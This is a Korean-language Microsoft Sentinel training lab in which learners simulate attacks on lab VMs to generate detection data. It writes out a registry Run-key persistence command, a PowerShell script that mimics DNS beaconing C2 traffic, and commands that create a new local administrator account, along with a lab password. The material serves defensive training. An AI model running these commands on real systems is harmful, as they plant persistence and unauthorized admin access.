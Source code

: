 ```yaml
---
lab:
    title: '연습 5 - 공격 수행'
    module: '모듈 7 - Microsoft Sentinel을 사용하여 검색 만들기 및 조사 수행'
---
```


# 모듈 7 - 랩 1 - 연습 5 - 공격 수행


### 작업 1: 엔드포인트용 Defender를 사용하여 구성된 Windows 공격

이 작업에서는 엔드포인트용 Microsoft Defender가 구성되어 있는 호스트에서 공격을 수행합니다.

1. WIN1 가상 머신에 Admin으로 로그인합니다. 암호로는 **Pa55w.rd**를 사용합니다.  

2. 작업 표시줄의 검색 창에 *명령*을 입력합니다.  검색 결과에 명령 프롬프트가 표시됩니다.  명령 프롬프트를 마우스 오른쪽 단추로 클릭하고 **관리자 권한으로 실행**을 선택합니다. 사용자 계정 컨트롤 창이 표시되면 **예**를 선택하여 앱을 실행하도록 허용합니다.

3. 명령 프롬프트의 각 행에 다음 명령을 입력하고 각 행의 끝에서 Enter 키를 누릅니다.

```Command
cd \
mkdir temp
cd temp
```
4. 공격 1 - 다음 명령을 명령 프롬프트 앱에 복사하여 실행합니다.

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 공격 3 - 다음 명령을 복사하여 실행합니다.

```Command
notepad c2.ps1
```
**예**를 선택하여 새 파일을 만든 후 아래 PowerShell 스크립트를 *c2.ps1*에 복사합니다.

>**참고:** 가상 머신에 붙여 넣을 때는 길이 제한이 있을 수 있습니다. 명령을 바로 붙여 넣을 수 없는 경우 이 코드를 3개 섹션으로 나눠서 모든 스크립트를 가상 머신에 붙여 넣으세요.  메모장에서 연 *c2.ps1* 파일 내에서 스크립트가 여기에 나와 있는 명령과 동일하게 표시되는지 확인합니다.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

메모장 메뉴에서 **파일**을 선택한 후 **저장**을 선택합니다. 명령 프롬프트 창에서 한 행에 명령을 하나 입력하고 Enter 키를 눌러 한 행에 하나씩 다음 명령을 입력합니다. **참고:** 오류를 해결하라는 메시지가 표시됩니다. 정상적인 현상이므로 무시하세요.

```Command
powershell
.\c2.ps1
```

>**중요:** 창을 닫지 마세요. 이 명령/PowerShell 스크립트를 백그라운드에서 실행하고 명령이 몇 시간 동안 로그 항목을 생성해야 합니다. 이 스크립트가 실행되는 동안 다음 작업과 다음 연습을 진행해도 됩니다. 이 작업에서 생성되는 데이터를 나중에 위협 헌팅 랩에서 사용합니다. 이 프로세스에서 대량의 데이터가 작성되거나 처리되지는 않습니다.


### 작업 2: Sysmon을 사용하여 구성된 Windows 공격

이 작업에서는 보안 이벤트 커넥터와 Sysmon이 구성되어 있는 호스트에서 공격을 수행합니다.

1. WIN2 가상 머신에 Admin으로 로그인합니다. 암호로는 **Pa55w.rd**를 사용합니다.  

2. 작업 표시줄의 검색 창에 *CMD*를 입력합니다.  검색 결과에 명령 프롬프트가 표시됩니다.  명령 프롬프트를 마우스 오른쪽 단추로 클릭하고 **관리자 권한으로 실행**을 선택합니다.  사용자 계정 컨트롤 메시지가 표시되면 수락합니다.

3. 명령 프롬프트의 각 행에 다음 명령을 입력하고 각 행의 끝에서 Enter 키를 누릅니다.

```Command
cd \
mkdir temp
cd \temp
```

4. 공격 1 - 다음 명령을 명령 프롬프트 앱에 복사하여 실행합니다.

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

>**참고:** WIN1에서와 동일한 *지속성* 전술을 사용하지만 다음 연습에서는 다른 검색을 사용할 것입니다.

5. 공격 2 - 다음 명령을 복사하여 실행합니다. 각 행에 다음 명령을 입력하고 각 행의 끝에서 Enter 키를 누릅니다.

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 연습 6 계속 진행
